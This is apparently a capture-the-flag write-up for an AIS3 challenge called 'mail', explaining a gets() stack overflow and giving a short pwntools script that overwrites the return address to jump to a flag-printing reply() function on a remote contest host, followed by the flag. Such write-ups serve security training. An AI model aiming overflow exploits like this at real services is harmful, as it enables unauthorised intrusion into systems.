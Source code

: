 ## mail
### solution
分析以後發現main會呼叫兩次`gets()`，可以進行覆蓋到return address，而有個函式`reply()`似乎會讀檔並輸出內容，因此試著控制RIP跳到`reply()`即能拿到flag。
### script
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

r = remote("104.199.235.135", 2111)
b = ELF("mail")
r.sendline(b"a" * 40 + p64(b.symbols[b'reply']))
r.sendline("a")
r.interactive()
```
### flag
```
AIS3{3hY_d0_yOU_Kn0uu_tH3_r3p1Y?!_I_d0nt_3ant_t0_giu3_QwQ}
```
